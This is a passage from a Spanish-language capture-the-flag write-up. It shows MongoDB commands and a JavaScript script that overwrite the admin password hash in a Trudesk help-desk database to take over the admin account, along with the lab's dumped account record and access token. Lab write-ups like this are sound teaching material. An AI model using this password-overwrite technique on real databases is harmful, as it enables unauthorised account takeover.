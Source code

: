 > Volvemos a la base de datos y actualizamos la contraseña

```console
> db.accounts.update({"username":"admin"}, {$set: {"password" : "$2b$12$J0bmFJhw6gJ3HmSfSLmnb.WbdIMkrhEPzMte.kY9f59GhreFX2vs."}})
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
> db.accounts.find({"username":"admin"})
{ "_id" : ObjectId("623c8b20855cc5001a8ba13c"), "preferences" : { "tourCompleted" : false, "autoRefreshTicketGrid" : true, "openChatWindows" : [ ] }, "hasL2Auth" : false, "deleted" : false, "username" : "admin", "password" : "$2b$12$J0bmFJhw6gJ3HmSfSLmnb.WbdIMkrhEPzMte.kY9f59GhreFX2vs.", "fullname" : "Robert Frost", "email" : "rfrost@carpediem.htb", "role" : ObjectId("623c8b20855cc5001a8ba138"), "title" : "Sr. Network Engineer", "accessToken" : "22e56ec0b94db029b07365d520213ef6f5d3d2d9", "__v" : 0, "lastOnline" : ISODate("2022-04-07T20:30:32.198Z") }
```

Ahora volvemos a al subdominio de antes `trudesk.carpediem.htb`, nos logeamos como `admin` y la contraseña `bestpassword123` y logramos entrar

Para automatizar el proceso podemos crear un script en `javascript` que se encargue de actualizar la constraseña:

```javascript
// get database object
db = new Mongo().getDB('trudesk');

// to specify user
var username = "admin"
var new_password = "$2b$12$J0bmFJhw6gJ3HmSfSLmnb.WbdIMkrhEPzMte.kY9f59GhreFX2vs." // bestpassword123

// view administrator password
print("Old information :")
cursor = db.accounts.find({
  "username" : username
});
while (cursor.hasNext()) {
  printjson(cursor.next());
}
// update administrator password
print("[Password updated!]")
db.accounts.update({ "username" : username }, 
  { $set: {
      "password" : new_password
   }
});
// verify new password
print("New information :")
cursor = db.accounts.find({
  "username" : username
});
while (cursor.hasNext()) {
  printjson(cursor.next());
}
```
